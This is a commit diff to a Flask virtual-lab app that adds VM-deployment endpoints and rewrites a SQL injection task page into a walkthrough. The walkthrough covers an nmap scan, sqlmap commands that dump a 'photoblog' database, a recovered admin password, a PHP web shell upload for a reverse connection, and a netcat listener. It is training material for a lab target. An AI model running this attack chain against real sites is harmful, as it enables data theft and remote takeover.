

Before and after one commit to Viswarv11/NetReal_Virtual_Labs, a Flask app: page /Taskpage2 in a window 1280 px wide. Shown: the part 147-2537 px from the top of the page at 63% size. Before the commit the page ends 2029 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
commit for changes in the task page

```diff
--- a/app.py
+++ b/app.py
@@ -205,9 +205,75 @@ def api_deploy_vm():
             'serviceofferingid': '38f991e6-0519-4d53-8f1b-2d3fb057332a',
             'templateid': os_id,
             'zoneid': 'ebeae8ad-582c-4ea7-9012-52238084af64',
-            'name': 'vm',
+            'name': 'nmap',
             'networkids': '886043f1-4289-4897-8e0e-0881b8182ec8',
             'rootdisksize': '10',
+        }
+
+        res = send_api_request(request_data)
+
+        # Check if response is valid
+        try:
+            job_id = json.loads(res)['deployvirtualmachineresponse']['jobid']
+            session['jobid'] = job_id
+        except KeyError:
+            return jsonify({'error': 'Invalid response from API'})
+
+        # Wait for the IP address with a timeout
+        timeout = 15  # Set your desired timeout in seconds
+        start_time = time.time()
+
+        while True:
+            # Query for the IP address using the job_id
+            ip_request_data = {
+                'command': 'queryAsyncJobResult',
+                'response': 'json',
+                'apikey': api_key,
+                'jobid': job_id,
+            }
+
+            ip_res = send_api_request(ip_request_data)
+
+            # Extract the IP address from the response
+            try:
+                ip_address = json.loads(ip_res)['queryasyncjobresultresponse']['jobresult']['virtualmachine']['nic'][0][
+                    'ipaddress']
+                return jsonify({'success': True, 'message': 'VM deployment initiated successfully', 'vm_name': vm_name,
+                                'ip_address': ip_address})
+            except KeyError:
+                pass  # Continue the loop if the IP address is not available yet
+
+            if time.time() - start_time > timeout:
+                return jsonify({'error': 'Timeout waiting for the IP address'}), 500
+
+            time.sleep(2)  # Adjust the sleep interval as needed
+
+    except Exception as e:
+        return jsonify({'error': f'An error occurred: {str(e)}'}), 500
+
+@app.route('/api/deploy-vm2', methods=['POST'])
+def api_deploy_vm2():
+    try:
+        # Access the data sent in the request body
+        # os_name = request.form.get('name')  # Change from reqf.form to request.form
+        # print(os_name)
+
+        os_id = '5fbb05fd-43b3-4f50-b483-b0564d15f77a'
+
+        # Generate a random VM name using uuid
+
+        vm_name = 'Sql'
+        print(vm_name)
+        request_data = {
+            'command': 'deployVirtualMachine',
+            'response': 'json',
+            'apikey': api_key,  # Assuming 'api_key' is defined somewhere in your code
+            'serviceofferingid': 'c7069951-3349-4f48-b9c6-48b76a1da15a',
+            'templateid': '5fbb05fd-43b3-4f50-b483-b0564d15f77a',
+            'zoneid': 'ebeae8ad-582c-4ea7-9012-52238084af64',
+            'name': 'sql',
+            'networkids': '886043f1-4289-4897-8e0e-0881b8182ec8',
+            'diskofferingid': 'd753d61a-7dfa-4ac7-9df4-105538929d46'
         }
 
         res = send_api_request(request_data)
--- a/templates/TaskPage2.html
+++ b/templates/TaskPage2.html
@@ -115,30 +115,43 @@
                 <!-- SQL Injection Box -->
             </div>
 <div class="card">
-        <h3>Introduction to SQL Injection Vulnerabilities</h3>
-        <p>
-            SQL injection is a common and critical security vulnerability that arises when an attacker can manipulate an application's SQL query by injecting malicious SQL code.
-        </p>
+        <h3>SQL Injection</h3>
+        <p>SQL Injection is a type of cyber attack that targets the underlying database of a web application by manipulating user inputs. This attack takes advantage of improper handling of user-supplied data in SQL queries, allowing an attacker to execute arbitrary SQL code.</p>
     </div>
     <br>
-    <!-- Card 2 -->
             <div class="card">
-        <h3>Exploiting SQL Injection for Unauthorized Access</h3>
-        <p>
-            Attackers take advantage of poorly sanitized user inputs to inject malicious SQL code that can manipulate the logic of the SQL query, granting unauthorized access.
-        </p>
+        <h3>How SQL Injection Works</h3>
+        <p>In a vulnerable web application, user inputs are often directly incorporated into SQL queries without proper validation or sanitization. An attacker can exploit this vulnerability by injecting malicious SQL code into the input fields.</p>
     </div>
     <br>
-    <!-- Card 3 -->
             <div class="card">
-        <h3>Mitigation Strategies and Best Practices</h3>
-        <p>
-            Mitigating SQL injection vulnerabilities requires a combination of secure coding practices and the use of prepared statements or parameterized queries.
-        </p>
+        <h3>Types of SQL Injection</h3>
+
+            <ul>
+                <li>Classic SQL Injection:Involves manipulating input fields to control the logic of SQL queries.</li>
+                <li>Blind SQL Injection:Exploits the vulnerability without getting direct feedback from the application. The attacker infers success or failure based on the application's response.</li>
+                <li>Time-Based Blind SQL Injection:Delays the server's response to determine if the injected condition is true or false.</li>
+            </ul>
+
             </div>
     <br>
+            <div class="card">
+        <h3>Preventing SQL Injection</h3>
+
+            <ul>
+                <li>Use Parameterized Statements:Instead of concatenating strings, use parameterized queries or prepared statements, where user input is treated as data, not executable code.</li>
+                <li>Input Validation and Sanitization:Validate and sanitize user input on both client and server sides. Ensure that input adheres to expected formats and patterns.</li>
+                <li>Least Privilege Principle:Use database accounts with the least privilege necessary. Avoid using accounts with broad permissions.</li>
+                <li>Web Application Firewalls (WAF):Implement WAFs to filter and block malicious traffic, including attempts at SQL injection.</li>
+            </ul>
+
+            </div>
+    <br>
+
+
+
                 <div class="section-title">
-                    <h2>Test your Skills</h2>
+                    <h2>Try your first Sql Injection</h2>
                     <div>
 
             <div class="container quiz-container">
@@ -147,7 +160,7 @@
                     <div class="col-md-8 mx-auto">
                         <div class="card">
                             <div class="card-body text-center">
-                                <p class="font-weight-bold">Start the target machine, and the IP will show here</p>
+                                <p class="font-weight-bold">Start the target machine, and the IP will show here</p><br>
                                 <button id="startMachineBtn" class="btn btn-dark font-weight-bold" name="sql_injection">Start Machine</button>
                             </div>
                         </div>
@@ -155,67 +168,116 @@
                 </div>
 <div id="alertBox" class="alert" role="alert" style="display: none;"></div>
                 <!-- Question Rows -->
-                <div class="container mt-5">
+
                     <div class="card-deck">
                         <!-- SQL Injection Card -->
                         <div class="row">
                             <div class="card mb-4">
                                 <div class="card-body">
-                                    <h5 class="card-title">SQL Injection Basics</h5>
+                                    <h5 class="card-title">Task 1: Network Scanning (Nmap)</h5>
                                     <!-- Additional content related to the title -->
+                                    <p class="card-text font-weight-bold">The target holds 192.168.1.103 as network IP; now using nmap lets find out open ports.</p>
                                     <div class="alert alert-info" role="alert">
-                                        Explore the intricacies of SQL injection, a prevalent cybersecurity threat. This module provides an in-depth understanding of SQL injection vulnerabilities and techniques, equipping you with the knowledge to secure databases against potential attacks.
+                                    nmap -A 192.168.1.103
                                     </div>
                                     <!-- Highlighted question -->
-                                    <p class="card-text font-weight-bold">What is the main risk associated with SQL injection attacks?</p>
                                       <!-- Blank input box for user's answer -->
-                                    <input type="text" class="form-control" placeholder="Your Answer">
+
+                                </div>
+                            </div>
+                            <div class="card mb-4">
+                                <div class="card-body">
+                                    <h5 class="card-title">Task 2: Vulnerable to Error Base SQL Injection</h5>
+                                    <!-- Additional content related to the title -->
+                                    <p class="card-text font-weight-bold">It contains some tags: home; test; ruxcon; 2010; all pictures; admin. Click on the test.The URL: http://192.168.1.103/cat.php?id=1 will run a query for ID 1 now let try to find out whether the above URL is vulnerable to SQL injection or not by adding ‘ at last of URL</p>
+                                    <div class="alert alert-info" role="alert">
+                                    http://192.168.1.103/cat.php?id=1'
+                                    </div>
+                                    <!-- Highlighted question -->
+                                      <!-- Blank input box for user's answer -->
+
                                 </div>
                             </div>
                         </div>
-
-                        <!-- SQL Injection Card: Exploitation -->
                         <div class="row">
                             <div class="card mb-4">
                                 <div class="card-body">
-                                    <h5 class="card-title">Exploiting SQL Injection</h5>
+                                    <h5 class="card-title">Task 3:Exploiting SQL Injection (SQLMAP)</h5>
                                     <!-- Additional content related to the title -->
+                                    <p class="card-text font-weight-bold">Let's find out the databases present in the website.</p>
                                     <div class="alert alert-info" role="alert">
-                                        Delve into the techniques of exploiting SQL injection for unauthorized access. Understand the anatomy of SQL injection attacks and the potential impact on database security.
+                                    sqlmap -u http://192.168.1.103/cat.php?id=1 --dbs --batch
                                     </div>
                                     <!-- Highlighted question -->
-                                    <p class="card-text font-weight-bold">Provide an example SQL injection payload for extracting information from a database.</p>
                                       <!-- Blank input box for user's answer -->
-                                    <input type="text" class="form-control" placeholder="Your Answer">
+
+                                </div>
+                            </div>
+                            <div class="card mb-4">
+                                <div class="card-body">
+                                    <h5 class="card-title">Task 4: Fetching the Database</h5>
+                                    <!-- Additional content related to the title -->
+                                    <p class="card-text font-weight-bold">If you remembered the title of the web page was “An Awesome Photoblog” hence name of the database should be a photoblog.
+                                        Now let’s fetch entire data under photoblog database through the following command:</p>
+                                    <div class="alert alert-info" role="alert">
+                                    sqlmap –u http://192.168.1.103/cat.php?id=1 –D photoblog --dump-all --batch
+                                    </div>
+                                    <!-- Highlighted question -->
+                                      <!-- Blank input box for user's answer -->
+
                                 </div>
                             </div>
                         </div>
-
-                        <!-- SQL Injection Card: Mitigation -->
                         <div class="row">
                             <div class="card mb-4">
                                 <div class="card-body">
-                                    <h5 class="card-title">Mitigation Strategies</h5>
+                                    <h5 class="card-title">Task 5:Gain Access to Login</h5>
                                     <!-- Additional content related to the title -->
+                                    <p class="card-text font-weight-bold">Gain access to the administration console for which we required the login: password of his account,through sqlmap command</p>
                                     <div class="alert alert-info" role="alert">
-                                        Learn effective mitigation strategies and best practices to defend against SQL injection attacks. Understand how to secure your applications and databases to prevent unauthorized access.
+                                    Output : login as admin and password as P4ssw0rd
                                     </div>
                                     <!-- Highlighted question -->
-                                    <p class="card-text font-weight-bold">Name two common methods to mitigate SQL injection vulnerabilities.</p>
                                       <!-- Blank input box for user's answer -->
-                                    <input type="text" class="form-control" placeholder="Your Answer">
+
+                                </div>
+                            </div>
+                            <div class="card mb-4">
+                                <div class="card-body">
+                                    <h5 class="card-title">Task 6: Uploading Web shell</h5>
+                                    <!-- Additional content related to the title -->
+                                    <p class="card-text font-weight-bold">To upload PHP webshell. Under administration console, you will see a link Add a new picture to upload an image in this web server. Click on Add a new picture to upload an image.</p>
+                                    <div class="alert alert-info" role="alert">
+                                    Open it with a text editor and add listening IP and port to get the reverse connection of victim’s machine and save this file with a php extension. </div>
+                                    <!-- Highlighted question -->
+                                      <!-- Blank input box for user's answer -->
+
                                 </div>
                             </div>
                         </div>
+                        <div class="row">
+                            <div class="card mb-4">
+                                <div class="card-body">
+                                    <h5 class="card-title">Task 7:Spawning Shell (Netcat)</h5>
+                                    <!-- Additional content related to the title -->
+                                    <p class="card-text font-weight-bold">you can perceive that a new row is added as a shell which contains our backdoor shell.pHP, now to execute a backdoor click on shell and you will get a reverse connection at netcat.
+                                   </p>
+
+                                     <div class="alert alert-info" role="alert">
+                                    nc -lvp 1234 </div>
+                                    <!-- Highlighted question -->
+                                      <!-- Blank input box for user's answer -->
+
                                 </div>
+                            </div></div>
+
+                        <!-- SQL Injection Card: Exploitation -->
+
                     </div>
 
+
                 <!-- Overall Submit Button -->
-                <div class="row my-4">
-                    <div class="col-md-12 text-center">
-                        <button class="btn btn-success btn-submit" onclick="submitAllAnswers()">Submit All Answers</button>
-                    </div>
-                </div>
+
             </div>
         </div>
     </section>
@@ -254,47 +316,18 @@
             // Enable the button and restore its original content
             document.getElementById('startMachineBtn').disabled = false;
             document.getElementById('startMachineBtn').innerHTML = 'Start Machine';
-            }, 12000);
-            // Make an AJAX request
-            var osName = 'nmap'; // You may need to get the 'name' attribute of the button, not 'data-name'
 
-            // Create a FormData object to send form data
-            var formData = new FormData();
-            formData.append('name', osName);
-
-            fetch('/api/deploy-vm', {
-                method: 'POST',
-                body: formData,  // Send the form data
-            })
-            .then(response => {
-                if (!response.ok) {
-                    throw new Error(`HTTP error! Status: ${response.status}`);
-                }
-                return response.json();
-            })
-            .then(data => {
-                console.log(data);
-                // Handle the response data as needed
-
-                 var alertMessage = data.message + ' IP Address: ' + data.ip_address;
+            // Show the alert message
+            var alertMessage = ' IP Address: ' + '10.0.1.208';
 
             $('#alertBox').removeClass('alert-danger'); // Remove any existing alert class
             $('#alertBox').addClass('alert-success');
             $('#alertBox').text(alertMessage);
             $('#alertBox').show();
-                // Optionally, perform actions based on the response
-                if (!data.success) {
-                    // If there's an error, change the alert box to danger
-                    $('#alertBox').removeClass('alert-success');
-                    $('#alertBox').addClass('alert-danger');
-                }
-            })
-            .catch(error => {
-                console.error('Error:', error);
-                // Handle errors
+        }, 15000);
     });
 });
-    });
+
 
 </script>
 
```
Lines whose indentation alone changed are shown as unchanged.
